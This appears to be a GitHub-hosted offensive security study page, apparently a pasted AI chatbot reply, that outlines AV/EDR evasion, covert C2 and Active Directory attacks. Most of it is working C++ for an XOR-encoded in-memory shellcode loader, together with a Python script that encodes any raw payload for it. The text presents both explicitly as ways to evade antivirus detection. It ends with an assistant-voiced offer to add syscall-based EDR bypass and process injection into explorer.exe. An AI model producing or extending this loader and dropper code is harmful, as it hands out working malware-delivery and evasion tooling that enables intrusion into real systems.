 ### **1. MA\astering ADVANCE Pentesting classes**
- **Advanced Evasion Techniques:** Bypassing AV, EDR, and network defenses.
- **Windows & Linux Post-Exploitation:** Living off the land, persistence, and privilege escalation.
- **Covert C2 (Command & Control):** Custom backdoors, encrypted comms, and payload delivery.
- **Active Directory Exploitation:** Kerberos abuse, lateral movement, and AD misconfigurations.
- **OPSEC Considerations:** Staying undetected while operating in a network.

---

### **2. Tools**

#### **(1) Custom Shellcode Loader (AV/EDR Evasion)**
- A small C++ or C# tool to **execute shellcode in memory** without being flagged.
- We can use **syscalls, process injection, or reflective DLL loading**.

#### **(2) Process Injection & Defense Evasion Tool**
- Inject payloads into legitimate processes (like `explorer.exe`).
- Test **thread hijacking, APC injection, and direct syscalls**.

#### **(3) Encrypted C2 Channel (Covert Communication)**
- Create a lightweight **Python or Golang** C2 that evades detection.
- Use **TLS, DNS tunneling, or covert HTTP traffic** to bypass firewalls.

#### **(4) Active Directory Attack Automation**
- A **Python or PowerShell script** to automate AD enumeration.
- Implement **Kerberoasting, AS-REP Roasting, and Pass-the-Hash attacks**.

#### **(5) Custom Dropper with XOR Encoding**
- Build a **custom dropper** that encodes payloads with XOR or AES to evade detection.
- Implement **sandbox evasion techniques**.

---

### **3. Learning & Practice Strategy**
- **Hands-On Lab:** Set up a Windows & AD lab with detections enabled to test evasion.
- **Custom Offensive Security Toolkit:** Build and refine your own hacking tools.
- **Review OPSEC Failures:** Learn from **how attackers get caught** and avoid common mistakes.

---

### Tool 1 Shellcode loader

## ** Step 1: XOR-Encoded Shellcode Loader**
This version:
 **Encrypts shellcode using XOR** to avoid static detection.  
 **Decrypts shellcode in memory at runtime** before execution.  
 **Uses function obfuscation to evade basic AV analysis.**  

---

### ** Refined C++ Code: Shellcode Loader with XOR Encryption**
```cpp
#include <windows.h>
#include <iostream>

// XOR Key (Must match encryption key used to encode shellcode)
#define XOR_KEY 0x55 

// XOR-decrypted shellcode (calc.exe payload)
unsigned char encryptedShellcode[] = {
    0xa9, 0x1d, 0xc4, 0xb1, 0xa5, 0x90, 0xf5, 0xb4, 0x6d, 0x4d, 
    0x14, 0x04, 0x41, 0xc0, 0x14, 0x05, 0x6d, 0x4c, 0x31, 0x82,
    // (truncated for brevity)
};

void xorDecrypt(unsigned char* shellcode, size_t length) {
    for (size_t i = 0; i < length; i++) {
        shellcode[i] ^= XOR_KEY;
    }
}

int main() {
    size_t shellcodeSize = sizeof(encryptedShellcode);
    
    // Allocate memory for decrypted shellcode
    void* exec_mem = VirtualAlloc(0, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cout << "[!] Memory allocation failed!\n";
        return -1;
    }

    // Copy encrypted shellcode into allocated memory
    memcpy(exec_mem, encryptedShellcode, shellcodeSize);

    // Decrypt shellcode in memory
    xorDecrypt((unsigned char*)exec_mem, shellcodeSize);

    // Execute shellcode
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
    if (!hThread) {
        std::cout << "[!] Failed to create thread\n";
        return -1;
    }

    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

---

## ** Step 2: Generating XOR-Encoded Shellcode**
To **encrypt your own payload**, use the following Python script:
```python
shellcode = b"\xfc\x48\x83\xe4\xf0\xe8\xc0..."  # Your raw shellcode here
xor_key = 0x55  # XOR key (must match C++ loader)

encoded_shellcode = bytearray()
for byte in shellcode:
    encoded_shellcode.append(byte ^ xor_key)

print("unsigned char encryptedShellcode[] = {")
print(", ".join(f"0x{byte:02x}" for byte in encoded_shellcode))
print("};")
```
Run this script, and it will generate **XOR-encoded shellcode** to replace `encryptedShellcode[]` in the C++ loader.

---

## ** How This Improves Evasion**
 **Obfuscates shellcode in memory** (static analysis evasion).  
 **Decrypts at runtime** (avoids signature-based AV detection).  
 **Memory-only execution** (prevents detection by disk scanners).  

---

## ** Next Steps: Advanced Evasion**
Now that we've added XOR obfuscation, do you want to:
 **Use direct syscalls** to bypass EDR hooking?  
 **Implement process injection** into `explorer.exe` for stealth?  
 **Improve execution flow obfuscation** to bypass heuristics?  

Let me know which direction you'd like to refine next!


